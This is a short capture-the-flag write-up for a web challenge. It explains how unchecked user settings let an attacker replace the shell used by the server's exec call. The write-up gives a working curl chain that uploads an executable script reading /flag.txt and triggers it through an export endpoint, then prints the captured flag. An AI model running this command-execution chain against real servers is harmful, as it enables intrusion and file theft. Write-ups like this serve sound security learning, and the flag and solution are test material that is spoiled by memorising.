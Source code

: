 The challenge is exposed to prototype pollution. The server accepts user’s settings blindly and builds `opts` for `exec` function. By changing the settings to use our own shell instead of the system allows us to upload the payload via `/app/note`. The payload extract the flag from the root folder, outputs into the console and the server code will stdout to the user as a response when called by `/export?name=pwn`.

```
BASE="https://recipe-for-disaster-3d9bad0d8b320264.challs.brunnerne.xyz"

curl -s -X POST "$BASE/api/settings" \
  -H 'Content-Type: application/json' \
  -d '{"exportOptions":{"shell":"./data/pwn/zip"}}'

cat <<'JSON' | curl -s -X POST "$BASE/api/note" \
  -H 'Content-Type: application/json' --data-binary @-
{
  "name": "pwn",
  "filename": "zip",
  "content": "#!/bin/sh\n\necho 'FOUND_FLAG:'\nif [ -f /flag.txt ]; then\n  cat /flag.txt\n  exit 0\nfi\necho 'no /flag.txt found'; pwd; ls -la /\n",
  "makeExecutable": "true"
}
JSON

curl -s "$BASE/export?name=pwn" -D -
```

Flag: brunner{pr0t0typ3_p0llu710n_0v3rf10w1ng_7h3_0v3n}

Solved by: jerit3787